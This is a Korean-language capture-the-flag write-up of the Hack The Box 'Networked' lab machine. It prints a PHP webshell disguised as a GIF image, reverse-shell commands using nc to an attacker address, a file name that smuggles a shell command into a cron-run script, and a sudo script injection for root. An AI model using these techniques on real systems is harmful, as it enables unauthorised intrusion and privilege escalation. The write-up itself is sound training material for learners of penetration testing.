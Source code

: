 ```yaml
---
layout: article
title: "Hack The Box: Networked write-up"
excerpt: "Hack The Box: Networked write-up"
date: 2019-09-24 18:23:00 +0900
author: SystemaHacker
categories: [Write-up]
tags: [HackTheBox, Pen-Testing, Write-Up]
permalink: /writeup/networked
---
```


## 개요

![Hack The Box Networked card info](/assets{{ page.permalink }}/networked.png)

|OS|Linux|
|Difficulty|Easy|
|Points|20|
|Release|24 Aug 2019|
|IP Address|10.10.10.146|

---
## 조사
주어진 아이피 주소를 이용하여 nmap 스캔을 진행하였다.   

```
attacker$ nmap -A -v -sV --script vuln 10.10.10.146
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-enum:
|   /backup/: Backup folder w/ directory listing
|   /icons/: Potentially interesting folder w/ directory listing
|_  /uploads/: Potentially interesting folder w/ directory listing
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
443/tcp closed https
Nmap done: 1 IP address (1 host up) scanned in 63.85 seconds
```

포트 스캔 결과 22번 포트에서 ssh서버, 80번 포트에서 아파치 웹 서버를 발견하였다.
웹 서버에서 디렉터리들이 발견되었다.

- /backup/
- /icons/
- /uploads/

---
## 취약점 조사
[http://10.10.10.146/backup](http://10.10.10.146/backup) 주소로 접속 해보니 백업 압축 파일을 발견하였다.   
압축 해제 후 나온 PHP 코드를 분석 하였다.   

```
-rw-r--r--  1 attacker attacker  229 Jul  9 20:33 index.php
-rw-r--r--  1 attacker attacker 2001 Jul  2 20:38 lib.php
-rw-r--r--  1 attacker attacker 1871 Jul  2 21:53 photos.php
-rw-r--r--  1 attacker attacker 1331 Jul  2 21:45 upload.php
```

소스코드 분석 결과 [upload.php](/assets{{ page.permalink }}/upload.php)에서 업로드 할 파일 종류를 검증하는 코드에 취약점이 있음을 확인할 수 있다.

---
## PHP 웹쉘 업로드 
[upload.php](/assets{{ page.permalink }}/upload.php) 파일 분석 후 예상되는 이미지 업로드 취약점을 토대로 PHP 웹쉘을 작성하였다.   
코드 이전에 `GIF89a?` 를 입력함으로써 [이것이 이미지 파일이라고 인식시켜 악성코드를 업로드](https://asec.ahnlab.com/ko/18127/)할 것이다.  

[phpshell.php](/assets{{ page.permalink }}/phpshell.php)
```
GIF89a?
<?php
system( $_GET[cmd] );
?>
```

이제 파일 확장자를 `.gif`로 변경한 후 업로드한다.

---
## 웹 권한 탈취
<!--
업로드 페이지에서 이미지를 업로드 하는 모습.   
[http://10.10.10.146/upload.php](http://10.10.10.146/upload.php)
![업로드 페이지에서 이미지를 업로드 하는 모습.](/assets{{ page.permalink }}/1.png)   

업로드 페이지에서 업로드 완료 메시지가 뜬 모습.   
![업로드 페이지에서 업로드 완료 메시지가 뜬 모습.](/assets{{ page.permalink }}/2.png)   

갤러리 페이지에서 악성코드가 업로드된 것을 확인하는 모습.   
[http://10.10.10.146/photos.php](http://10.10.10.146/photos.php)
![갤러리 페이지에서 악성코드가 업로드된 것을 확인하는 모습.](/assets{{ page.permalink }}/3.png)   
-->

[http://10.10.10.146/upload.php](http://10.10.10.146/upload.php) 페이지에서 PHP 웹쉘을 업로드하는데 성공하였다.   

```
attacker$ nc -lvp 2021
```

웹 권한의 쉘을 탈취하기 위해 공격자의 PC에서 nc를 이용하여 2021 포트를 열었다.   
PHP 웹쉘이 업로드 된 URL에 GET 요청으로 cmd 파라미터에 Reverse Shell을 연결하는 명령을 전달한다. 

```
http://10.10.10.146/uploads/10_10_12_226.gif?cmd=nc 10.10.12.226 2021 -c bash
```
   
```
Connection from 10.10.10.146:41584
```

공격자 PC에 Reverse Shell이 연결된것을 확인할 수 있다.   

```
apache$ whoami
apache
```

apache 권한의 쉘을 탈취하였다.   

---
## guly 권한 상승
guly 권한을 탈취하기 위해 /home/guly 디렉토리를 살펴보자.   
```
apache$ ls -al /home/guly
-r--r--r--. 1 root root 782 Oct 30  2018 check_attack.php
-rw-r--r--  1 root root  44 Oct 30  2018 crontab.guly
-r--------. 1 guly guly  33 Oct 30  2018 user.txt
```

[check_attack.php](/assets{{ page.permalink }}/check_attack.php), [crontab.guly](/assets{{ page.permalink }}/crontab.guly) 파일을 추가로 발견하였다.

[crontab.guly](/assets{{ page.permalink }}/crontab.guly) Crontab을 이용하여 매 3분마다 [check_attack.php](/assets{{ page.permalink }}/check_attack.php)를 실행시키는 듯 하다.   

[check_attack.php](/assets{{ page.permalink }}/check_attack.php) 파일을 확인 시 Uploads 디렉터리에서 파일 이름을 조금만 손보면 권한 상승이 가능할것 같다.   


/var/www/html/uploads/ 디렉토리에 `;`를 포함한 이름의 파일을 생성하면 원하는 명령을 실행할 수 있다.   

```
echo "" > ./";nc 10.10.12.226 2022 -c bash"
```

파일 이름이 잘 설정 되었는지 확인해보자.   
```
apache$ ls -al
drwxrwxrwx. 2 root   root     266 Sep 13 06:38 .
drwxr-xr-x. 4 root   root     103 Jul  9 13:30 ..
-rw-r--r--  1 apache apache    40 Sep 13 06:26 10_10_12_226.php.gif
-rw-r--r--. 1 root   root    3915 Oct 30  2018 127_0_0_1.png
-rw-r--r--. 1 root   root    3915 Oct 30  2018 127_0_0_2.png
-rw-r--r--. 1 root   root    3915 Oct 30  2018 127_0_0_3.png
-rw-r--r--. 1 root   root    3915 Oct 30  2018 127_0_0_4.png
-rw-r--r--  1 apache apache     1 Sep 13 06:38 ;nc 10.10.12.226 2022 -c bash
-r--r--r--. 1 root   root       2 Oct 30  2018 index.html
```
2022번 포트로 리스닝 nc를 열어놓으면 guly 유저 권한으로 상승 가능할것이다.   
다음 Crontab 스크립트가 돌아올 3분동안 기다리자.   

```
Connection from 10.10.10.146:36230
```

예상대로 3분 안에 공격자 PC의 2022 포트로 연결이 들어왔다.   
```
guly$ whoami
guly
```

guly 유저 권한을 탈취하였다.   

User flag 확인   
```
guly$ cat user.txt
```

---
## Root 권한 상승
root 권한을 탈취하기 위해서 권한 상승에 도움을 줄만한 파일들을 탐색해보았다.   
```
guly$ sudo -l
Matching Defaults entries for guly on networked:
User guly may run the following commands on networked:
(root) NOPASSWD: /usr/local/sbin/changename.sh
```
비밀번호 없이 실행할 수 있는 root 권한 파일을 발견하였다.    

[changename.sh](/assets{{ page.permalink }}/changename.sh)
```
guly$ ls -al /usr/local/sbin/changename.sh
-rwxr-xr-x 1 root root 422 Jul  8 12:34 /usr/local/sbin/changename.sh
```

/usr/local/sbin/changename.sh 파일을 이용하면 root 권한을 탈취 할 수 있을것이다.   

```
guly$ cat /usr/local/sbin/changename.sh
#!/bin/bash -p
cat &gt; /etc/sysconfig/network-scripts/ifcfg-guly &lt;&lt; EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp=&quot;^[a-zA-Z0-9_\ /-]+$&quot;

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
	echo &quot;interface $var:&quot;
	read x
	while [[ ! $x =~ $regexp ]]; do
		echo &quot;wrong input, try again&quot;
		echo &quot;interface $var:&quot;
		read x
	done
	echo $var=$x &gt;&gt; /etc/sysconfig/network-scripts/ifcfg-guly
done

/sbin/ifup guly0
```

입력된 값이 검증되지 않고 실행되는 취약점을 이용해 root 권한으로 bash shell을 실행 할 수 있다.   
```
guly$ sudo /usr/local/sbin/changename.sh
interface NAME:
asd /bin/bash
interface PROXY_METHOD:
asd
interface BROWSER_ONLY:
asd
interface BOOTPROTO:
asd
```

```
root$ whoami
root
```

root 권한을 탈취하였다.   
Root flag 확인   
```
root$ cat /root/root.txt
```
